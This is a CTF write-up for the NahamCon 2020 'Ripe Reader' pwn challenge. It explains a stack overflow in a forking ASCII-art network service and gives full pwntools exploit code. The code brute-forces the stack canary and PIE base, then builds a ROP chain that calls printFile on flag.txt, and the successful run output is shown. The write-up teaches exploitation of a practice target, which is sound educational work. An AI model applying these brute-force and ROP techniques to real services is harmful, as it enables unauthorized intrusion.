

# NahamCon CTF 2020

## Ripe Reader

> 200
>
> Terminal typing images! ASCII-MAZING!
>
> **Note, this challenge WILL require you to bruteforce.**
>
> Connect here:</br>
> `nc one.jh2i.com 50023`</br>
> `nc two.j2hi.com 50023`</br>
> `nc three.jh2i.com 50023`</br>
> `nc four.jh2i.com 50023`</br>
>
> [`ripe_reader`](ripe_reader)

Tags: _pwn_ _x86-64_ _rop_ _stack-canary_ _bof_


## Summary

`ripe_reader` is a basic network service that will emit ASCII "art" from a fixed menu of four "works of art".  

Each connection to `ripe_reader` forks a child process inheriting the parent stack canary. Three brute-forces (canary, process base 4th least significant nibble and full 48-bit address) later, ROP can be used to get the flag.

This challenge is not dissimilar to [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md).  In fact, I used that code as a base for this challenge.  The most significant difference is that [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) gets a _unique_ parent on each connection and the child processes leverage that same connection.  This makes for faster brute-forcing, however each failed attempt will require starting over since the canary will change.  Ripe Reader provides a new child for each attempt, however the parent canary does not change; this is slower, however failed or partial attempts can pickup from where they left off as long as the servers do not get restarted.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.
    
### Decompile with Ghidra

There are two functions worth analyzing: `selectImg` and `printFile`.



Line 18 contains the vulnerability; `recv` will accept up to `0x400` bytes into a buffer (`local_48`) that is statically allocated for `56` bytes.  However, the stack canary will detect any buffer overflow attempt and kill the child with:

```
*** stack smashing detected ***: <unknown> terminated
```

Since the canary remains unchanged, it can be brute-forced, byte-by-byte.

> _See [Blind Piloting](https://github.com/datajerk/ctf-write-ups/blob/master/b01lersctf2020/blind-piloting/README.md) for a detailed example._

Getting past the canary is only the first step.  There are no free leaks, so the same method to obtain the canary will need to be used (twice) to get the process base address.  Once the process base address has been brute-forced, leaking libc to get a shell is next (_maybe_--untested); however for this challenge `ripe_reader` provides a `printFile` function that can be passed `./flag.txt`--this is a lot easier.

> That _is_ a guess, BTW.  Worse case, we'll have to work _harder_.

Checking to see if we're lucky:

```
# strings ripe_reader | grep flag.txt
./flag.txt
```

Yep, good guess.


## Exploit

### Attack Plan

1. First Pass: Brute-force stack canary
2. Second Pass: Brute-force process address LSBytes
3. Third Pass: Brute-force entire process address
4. Final Pass: ROP call `printFile` to get the flag

### Initial Setup

```python
#!/usr/bin/python3

from pwn import *
import sys

binary = ELF('ripe_reader')

context.log_level = 'WARN'
server = sys.argv[1]
port = int(sys.argv[2])
buf = (0x48 - 0x10) * b'A'
x = [i for i in range(256) if i != 10 ]
canary = p8(0)
```

The `log_level` of `WARN` will eliminate the connection `INFO` messages emitted from pwntools.  This can be quite annoying, esp. when you're observing the output.

`server` and `port` get set from the command line.  Since multiple servers were provided, I ran against all of them in parallel.

The length of `buf` is the number of bytes just above the canary.  The values `0x48` and `0x10` are from the Ghidra stack diagram, IANS, `local_48` - `local_10`.

`x` is the list of candidate bytes for brute-forcing.  Basically all bytes but `\n`.  When the other end is using something like `fgets` or `gets`, input is terminated with `\n`.  This challenges uses `recv`, which is more like `read`.  Excluding `\n` is probably not necessary, but I was too lazy to read the code.  I figured if there were a `\n` in the canary or process address and since the canary/process address would not change, I could remove and test, but I never got a failure.  Anyway, it probably does not need to be there.

Lastly the canary.  The least significant x86_64 canary byte is `0x00`.  Only 7 bytes to go. :-)


### First Pass: Brute-force stack canary

```
for i in range(7):
    for j in x:
        p = remote(server,port)
        p.recvuntil('[q] QUIT')
        payload = buf + canary + p8(j)
        p.send(payload)
        try:
            p.recvuntil('[q] QUIT')
            canary += p8(j)
            print(hex(u64(canary + (8 - len(canary)) * b'\x00')))
            p.close()
            break
        except:
            continue
    else:
        print("FAILED, you prob got a LF (0xa) in canary")
        sys.exit(1)

canary = u64(canary)
print('canary',hex(canary))
```

For each of the remaining 7 canary bytes, loop through all the candidate bytes and test if the remote child gets terminated or if returned back to the menu.  If returned back to menu, then that canary byte has been detected.

Locally this takes seconds.  Remotely about 5-10 minutes.


### Second Pass: Brute-force process address LSBytes

```
bp = 8 * b'B'
selectimg = 0xe06

for i in range(16):
    p = remote(server,port)
    p.recvuntil('[q] QUIT')
    payload = buf + p64(canary) + bp + p16(selectimg + i * 0x1000)
    print(hex(selectimg + i * 0x1000))
    p.send(payload)
    try:
        p.recvuntil('[q] QUIT')
        p.close()
        break
    except:
        continue
else:
    print("FAILED, no base for you")
    sys.exit(1)

procbase = selectimg + i * 0x1000
print('procbase | 0xffff',hex(procbase))
procbase = p16(procbase)
```

This one is quick.  Only 16 nibbles to try.

The last three nibbles of any function do not change.  The `selectImg` function address ends in `0xe06`; this can be observed from the disassembly.  The 4th nibble however is a mystery, and is governed by PIE/ASLR.

The payload in this case will brute-force the 4th nibble by overwriting just the two LSBytes of the return address.  If unsuccessful, the child will mostly likely segfault, however if successful, code execution will _return_ to the top of `selectImg`.  This can be detected by receiving the menu again.

> NOTE: If the receiver terminates the input string with a null (e.g. `fgets`), then forget it, _game over_.


### Third Pass: Brute-force entire process address

```
for i in range(4):
    for j in x:
        p = remote(server,port)
        p.recvuntil('[q] QUIT')
        payload = buf + p64(canary) + bp + procbase + p8(j)
        p.send(payload)
        try:
            p.recvuntil('[q] QUIT')
            procbase += p8(j)
            print(hex(u64(procbase + (8 - len(procbase)) * b'\x00')))
            p.close()
            break
        except:
            continue
    else:
        print("FAILED, you prob got an LF (0xa) in stack")
        sys.exit(1)

procbase = u64(procbase + b'\x00\x00') - binary.symbols['selectImg']
print('procbase',hex(procbase))
binary.address = procbase
```

x86_64 address are 48-bits (today).  With the lower 16-bits in hand, brute-forcing the remain four bytes is next.

The loop above is almost identical to the canary step.  When complete the process base address can be computed.

At this point, control of RIP has been obtained.


### Final Pass: ROP call `printFile` to get the flag

```
context.update(arch='amd64')
rop = ROP([binary])
try:
    pop_rsi_r15 = rop.find_gadget(['pop rsi','pop r15','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

context.log_level = 'INFO'

p = remote(server,port)
p.recvuntil('[q] QUIT')

payload  = buf + p64(canary) + bp
payload += p64(pop_rsi_r15)
payload += p64(next(binary.search(b'./flag.txt')))
payload += p64(0x0)
payload += p64(binary.symbols['printFile'])

p.send(payload)
p.stream()
```

`printFile` requires two parameters, a socket number (RDI), and pointer to a filename (RSI).  The socket number is unknown, however it is already in RDI thanks to `send(param_1,"Invalid option!\n",0x10,0);` (you can check this with GDB yourself).

Since we do not know the address of libc, we'll have to make do with `ripe_reader` for ROP gadgets--`pop rsi; pop r15; ret` will work nicely.

`ripe_reader` provides the string `./flag.txt`.

We'll throw a big fat zero to R15.

All this left is to `printFile` `flag.txt`.

Output:

```
# time ./exploit.py two.jh2i.com 50023
[*] '/pwd/datajerk/nahamconctf2020/ripe_reader/ripe_reader'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x4d00
0x924d00
0x50924d00
0xc850924d00
0x11c850924d00
0x9f11c850924d00
0xc19f11c850924d00
canary 0xc19f11c850924d00
0xe06
0x1e06
0x2e06
0x3e06
0x4e06
0x5e06
0x6e06
0x7e06
0x8e06
procbase | 0xffff 0x8e06
0x3a8e06
0xff3a8e06
0xd0ff3a8e06
0x55d0ff3a8e06
procbase 0x55d0ff3a8000
[+] Opening connection to two.jh2i.com on port 50023: Done

Invalid option!
flag{should_make_an_ascii_flag_image}

real    10m43.063s
user    0m3.230s
sys 0m0.923s
```

Times of other runs: _15m50.392s_, _12m27.560s_, _10m52.456s_

